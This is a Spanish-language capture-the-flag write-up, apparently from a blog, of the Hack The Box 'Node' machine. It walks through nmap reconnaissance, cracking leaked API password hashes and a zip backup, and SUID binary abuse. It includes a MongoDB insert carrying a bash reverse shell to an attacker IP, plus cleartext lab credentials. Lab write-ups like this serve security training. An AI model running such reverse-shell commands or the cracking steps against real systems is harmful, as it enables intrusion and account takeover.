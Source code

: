 ```yaml
---
layout: post
title: "Write Up Node. "
subtitle: "Starting-Point"
category: Blog
tags: [Medium,Chunin,Linux,HTB,API,Cracking,Hashes,SUID,Buffer-Overflow,Javascript,Python,Web,Vulnerability-Assessment,Security-Tools,Reversing,Authentication,NodeJS,Hydra,Binary-Exploitation,Password-Cracking,SUID,Buffer-Overflow,Clear-Text-Credentials,eJPTv2] 
image:
  path: /assets/img/node/Captura%20de%20pantalla%20(326).png
---
```


***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### nmap


```bash
nmap -p- --open --min-rate 5000-sS -n -vvv -Pn 10.10.10.158 -oA allports
```


![list](/assets/img/node/A-2022-12-22-18-28-51.png){:.lead width="800" height="100" loading="lazy"}


***

### Services and Versions


```bash
nmap -p22,80,443 -sV -sC 10.10.10.158 -oN target
```
![list](/assets/img/node/A-2022-12-22-18-34-38.png){:.lead width="800" height="100" loading="lazy"}


***

## Vulnerability Analysis


### HTTP TCP-80


Uso de Investigacion web, Google Hacking,Google Dorks y recopilación de información gracias a servicios de terceros.e ispeccionamos la web, ademas de las tecnologias de la ip ataves de la terminal o via  web esto lo hacemos con wapalizzer o whatweb.


![list](/assets/img/node/A-2022-12-22-18-33-18.png){:.lead width="800" height="100" loading="lazy"}

Esta maquina tiene el puerto `3000` abierto y en el esta alojado una pagina web, la cual inspecionando en contramos tres usuarios que son `tom`, `mark`, `rastating` los cuales vamos a guardar en un archivo llamado users, tambien con el exploit `ssh enumeration` vamos a validar que usuarios si son validos y solo son validos `tom` y `mark`, ademas vamos a trara de loogearnos y probar algunas injeciones de SQL pero no conseguimos nada.


![list](/assets/img/node/A-2022-12-22-18-33-22.png){:.lead width="800" height="100" loading="lazy"}


Vamoa a probar a fuzzera por directorios y subdominios a lo mejor encontramos algo interesante.


![list](/assets/img/node/A-2022-12-22-19-19-56.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Encontramos alguna rutas `vendor`, `uploads` ,`assests`.


Aunque no sirven de nada porque nos redirigen ispecionando la web vemos las peticiones y encontramos una ruta llamada `/api/users/lates` e iremos a husmear alli para ver que encontramos.


![list](/assets/img/node/A-2022-12-22-19-03-22.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
En contramos hashes de los tres usuarios que ya habiamos enumerado.


![list](/assets/img/node/A-2022-12-22-19-06-40.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Si le quitamos `/lates` encontramos hashes de los tres usuarios que ya habiamos enumerado y aparte uno mas llamado `myP14ceAdm1nAcc0uNT`.


Lo que vamos hacer con todos estos hashes es tratar de crackearlos ya sea con `john` o con `crackstation`.


![list](/assets/img/node/A-2022-12-22-19-24-24.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Las contraseñas son `myP14ceAdm1nAcc0uNT:manchester`, `tom:spongebob`, `mark:snowflake`.


Ya con credenciales vamos a de probar por SSH pero no conseguimos nada tamnbien podemos tratar de loogearno con `myP14ceAdm1nAcc0uNT:manchester` y bualaa lo consegimos, hay backuo dque podemos decargar y lo haremos.


![list](/assets/img/node/A-2022-12-22-19-34-01.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Es un archivo.txt que su contenido esta en base64 en cual decodenado es un archivo.zip


![list](/assets/img/node/A-2022-12-22-19-38-44.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Base64


![list](/assets/img/node/A-2022-12-22-19-41-40.png){:.lead width="800" height="100" loading="lazy"}


{::note}
Desempaquetamos el .zip, pero esta protegido y no sirve ninguna pass asi que usaremos `zip2john`.


Al hash que te suelta zip2john lo guardamos en un archivo llamado hash y a este lo crackeamos con john.


![list](/assets/img/node/A-2022-12-22-19-51-55.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
La contraseña de .zip es `magicword`.


Descomprimiendo encontramos algunos archivos vamos a humear en ellos para ver que encontramos que nos pueda servir, vamos a ispeccionar el archivo `app.js`.


![list](/assets/img/node/A-2022-12-22-19-56-06.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Encontramos unas credenciales `mark:5AYRft73VtFpc84k` que vamos ausar para conectarnos por SSH, Aun no podemos leer la flag pero ya estamos dentro.


Si buscamos por permisos SUID `find \-perm -user root 2>/dev/null` encontramos un binario `/usr/local/bin/backup`, pero solo podemos leerlo pero esta compilado asi que nada y para ejecutarlo debemos convertirno en el usuario `tom`, entonced debemos hacer user-pivoting y si recordamos las contraseñas son tambien de la base de datos `mongodb`.


![list](/assets/img/node/A-2022-12-22-20-11-10.png){:.lead width="800" height="100" loading="lazy"}


```shell
mongo -u 'mark' -p '5AYRft73VtFpc84k' localhost:27017/scheduler
```


{:.note}
Nos conectamos.


![list](/assets/img/node/A-2022-12-22-20-46-38.png){:.lead width="800" height="100" loading="lazy"}


```shell
show collections
```


{:.note}
Escomo tablas en MySQL


```shell
db.tasks.find()
```


{:.note}
Es para buscar datos.


```shell
db.tasks.insert({"cmd": "bash -c 'bash -i >& /dev/tcp/10.10.16.14/443 0>&1'"})
```

{:.note}
Es para insertar datosy debemos estar a la escucha con netcat en el puerto 443.


![list](/assets/img/node/A-2022-12-22-20-47-25.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Nos estamos mandando una reverse-shell como el usuario `tom` y la flag del usuari de bajos privileguios se encuentra en el escritorio.


***

## Exploitation


Siempre es bueno ejecutar `LimEnum` Y `pspy`, para que podamos enumerar más vulnerabilidades que permitan elevar nuestros privilegios al usuario "root", pero como de antes econtramos el binario backuop ahotra ya lo podemos ejecutar pero lo vamos a inspeccionar a bajo nivel con `ltrace` y `strace` por lo que se ve para ejecutarse espera tres valores que son `-q` + `keys` + `ruta` de lo que se va hacer un backup, por lo que vamos a ir probando eso.


![list](/assets/img/node/A-2022-12-22-20-57-56.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/node/A-2022-12-22-20-58-46.png){:.lead width="800" height="100" loading="lazy"}


Esto nos arroja una cadena en base64 la cual vamos hacerle un echo "hashbase64" | base63 -d > test.zip el cual es un archivo comprido que vamos a descomprimir.


![list](/assets/img/node/A-2022-12-22-21-06-35.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/node/Kali-2022-12-22-22-53-11.png){:.lead width="800" height="100" loading="lazy"}


Con esto en mente vamos ahcer un backup de la carpeta de `/root`.


![list](/assets/img/node/A-2022-12-22-21-21-46.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/node/Kali-2022-12-22-23-00-15.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Pero es un troleo.


Pero si en ves de poner `/root` ponemos `root` y nos situamos en la raiz ya no se debe poner la `/` ahi si funcionara.


![list](/assets/img/node/Kali-2022-12-22-23-01-35.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Ya podemos, buscar la flag en el escritorio del root.


***

```shell
🎉 Felicitaciones ya has comprometido Node de HackTheBox 🎉
```
{:.centered}
***

***
Back to [Certification eJPTv2 ](2023-07-03-Road-to-eJPTv2.md){:.heading.flip-title}
{:.read-more}
